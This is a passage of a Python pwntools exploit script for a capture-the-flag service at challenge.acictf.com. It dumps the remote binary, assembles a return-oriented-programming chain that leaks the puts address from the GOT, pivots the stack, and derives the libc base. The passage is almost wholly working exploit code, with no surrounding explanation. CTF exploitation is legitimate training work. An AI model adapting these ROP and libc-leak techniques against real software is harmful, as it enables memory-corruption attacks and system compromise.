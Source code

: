 ```python
    raw_input()
    p.sendline(str(offset))


context.log_level = 'debug'

#p = process('./rotf')

p = remote('challenge.acictf.com',47920)

binary = p.recvuntil('9) Leave')
binary = binary + p.recvuntil('9) Leave')


f = open('rotf-curr','wb').write(binary[4:-75])

e = ELF('rotf-curr')

PUTS_PLT = e.symbols['puts']
PUTS_GOT = e.got['puts']

READ_PLT = e.symbols['read']

p.success("Found addresses of puts@PLT {:x} and puts@GOT {:x}".format(PUTS_PLT, PUTS_GOT))

rop =ROP(e)

pop_rsp = rop.find_gadget(['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]

ROP_CHAIN_1 = p64(pop_rdi)     # Address of pop_rdi gadget
ROP_CHAIN_1 += p64(PUTS_GOT)    # Address of puts in the GOT
ROP_CHAIN_1 += p64(PUTS_PLT)    # Address of puts in the PLT
ROP_CHAIN_1 += p64(pop_rdi)    # Address of main
ROP_CHAIN_1 += p64(0x0)
ROP_CHAIN_1 += p64(pop_rdx)
ROP_CHAIN_1 += p64(0x50)
ROP_CHAIN_1 += p64(pop_rsi)
ROP_CHAIN_1 += p64(ROP_OFFSET+8*13)
ROP_CHAIN_1 += p64(READ_PLT)

p.sendline('12345678iAAAAAAAAAAAAAAAAAAAAAAA' + ROP_CHAIN_1)

p.recvuntil('9) Leave')

writeToLocation(-7, 0)

writeToLocation(-8, ROP_OFFSET)

writeToLocation(-10, pop_rsp)

p.recvuntil('\n')
p.recvuntil('\n')

puts_addr = int(p.recvuntil('\n').strip('\n')[::-1].encode('hex'), 16)

p.success("Leaked puts address in libc {:x}".format(puts_addr))

LIBC_PUTS = puts_addr
LIBC_BASE = LIBC_PUTS-0x0809c0
```